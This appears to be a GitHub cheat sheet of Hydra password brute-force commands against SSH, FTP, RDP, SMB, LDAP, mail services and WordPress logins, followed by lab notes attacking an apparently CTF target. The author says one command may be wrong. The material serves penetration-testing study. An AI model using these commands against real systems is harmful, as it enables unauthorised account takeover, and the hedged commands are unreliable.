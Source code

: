 # Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip 10.10.10.1`


| Command                                                                                                                                   | Description                                          |
| ----------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f                                                                                     | SMB Brute Forcing                                    |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f                                                                                       | LDAP Brute Forcing                                   |
Use Burp to get info required for website login pages
example:
```html
Cookie: wordpress_test_cookie=WP+Cookie+check; comment_author_4234445d7d75b662059eadc24ba39ce1=aaaaaaaaaaaaaa; comment_author_email_4234445d7d75b662059eadc24ba39ce1=aaaaa%40mail.com; comment_author_url_4234445d7d75b662059eadc24ba39ce1=http%3A%2F%2Faaaaaaaaaaaaaaaaaaaaaa
Upgrade-Insecure-Requests: 1

log=elyana&pwd=Password&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.7.16%2Fwordpress%2Fwp-admin%2F&testcookie=1
```

And the page to interact with, and also note the failed message
```html
POST /wordpress/wp-login.php
```

something like this
```python
hydra -l elyana -P /usr/share/wordlists/rockyou.txt 10.10.7.16 https-post-form "/wordpress/wp-login.php:log=elyana&pwd=Password&wp-submit=Log+In:incorrect" 
```

only this is working atm, but i don't think it's correct.
```python
hydra -l elyana -P /usr/share/wordlists/rockyou.txt 10.10.7.16 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

```python
hydra -l elyana -P /usr/share/wordlists/rockyou.txt 10.10.7.16 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.7.16%2Fwordpress%2Fwp-admin%2F&testcookie=1'
```
